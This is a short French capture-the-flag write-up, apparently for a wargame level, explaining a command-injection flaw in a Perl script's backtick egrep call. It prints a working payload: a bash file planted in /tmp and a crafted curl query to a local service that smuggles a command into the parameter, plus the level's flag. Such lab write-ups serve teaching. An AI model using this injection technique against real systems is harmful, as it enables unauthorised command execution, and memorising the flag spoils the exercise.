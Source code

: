 1. En regardant le fichier perl on comprend son fonctionnement
2. La ligne la plus importante est celle-ci ```@output = `egrep "^$xx" /tmp/xd 2>&1`;```
3. On écrit donc un payload permettant d'exploiter la vulnérabilité
   ```
   echo -e "#! /bin/bash\ngetflag > /tmp/l1;" > /tmp/xd

   chmod +x /tmp/xd

   curl '127.0.0.1:4646/?x="<.||".'

   cat /tmp/l1
   ```

> Flag: g1qKMiRpXf53AWhDaU7FEkczr
